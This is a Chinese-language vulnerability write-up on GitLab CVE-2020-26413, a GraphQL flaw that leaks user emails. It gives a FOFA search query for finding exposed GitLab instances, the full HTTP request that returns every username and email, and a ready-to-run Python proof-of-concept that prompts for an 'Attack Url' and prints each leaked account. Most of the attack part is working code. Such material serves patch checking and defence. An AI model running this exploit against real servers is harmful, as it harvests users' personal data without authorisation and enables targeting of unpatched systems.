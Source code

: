 # GitLab Graphql邮箱信息泄露漏洞 CVE-2020-26413

## 漏洞描述

GitLab中存在Graphql接口 输入构造的数据时会泄露用户邮箱和用户名

## 漏洞影响

```
GitLab 13.4 - 13.6.2
```

## FOFA

```
title="GitLab"
```

## 漏洞复现

漏洞来源为 hackone上的一篇公开报告

https://gitlab.com/gitlab-org/gitlab/-/issues/244275



![](./images/202202091901677.png)



意思为当使用构造的语句在接口查询时会返回邮箱信息，如图



访问 URL http://xxx.xxx.xxx.xxx/-//graphql-explorer

![](./images/202202091901256.png)



Gitlab本身不允许获取账号邮箱信息，这里通过调用 Graphql 用户名查询造成了邮箱泄露漏洞



查看完报告后发现漏洞利用需要有账号用户名，在不知道的情况下无法获取邮箱，在[Graphql官网](https://graphql.cn/)查看得知可以通过另一个构造的语句一次性返回所有的用户名和邮箱



![](./images/202202091902125.png)



发包调用了 **/api/graphql** 接口发送数据

完整数据包为

```json
POST /api/graphql HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 212
Content-Type: application/json


{"query":"{\nusers {\nedges {\n  node {\n    username\n    email\n    avatarUrl\n    status {\n      emoji\n      message\n      messageHtml\n     }\n    }\n   }\n  }\n }","variables":null,"operationName":null}
```



![](./images/202202091902984.png)



成功返回数据，造成 Gitlab的用户邮箱信息泄露

## 漏洞POC

```python
import requests
import sys
import random
import re
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: GitLab 13.4 - 13.6.2                                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/api/graphql"
    user_number = 0
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/json",
    }
    try:
        data = """
        {"query":"{\\nusers {\\nedges {\\n  node {\\n    username\\n    email\\n    avatarUrl\\n    status {\\n      emoji\\n      message\\n      messageHtml\\n     }\\n    }\\n   }\\n  }\\n }","variables":null,"operationName":null}
        """
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data ,verify=False, timeout=5)
        if "email" in response.text and "username" in response.text and "@" in response.text and response.status_code == 200:
            print('\033[32m[o] 目标{}存在漏洞, 泄露用户邮箱数据....... \033[0m'.format(target_url))
            for i in range(0,999):
                try:
                    username = json.loads(response.text)["data"]["users"]["edges"][i]["node"]["username"]
                    email = json.loads(response.text)["data"]["users"]["edges"][i]["node"]["email"]
                    user_number = user_number + 1
                    print('\033[34m[o] 用户名:{} 邮箱:{} \033[0m'.format(username, email))
                except:
                    print("\033[32m[o] 共泄露{}名用户邮箱账号 \033[0m".format(user_number))
                    sys.exit(0)
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```



![](./images/202202091902242.png)



## 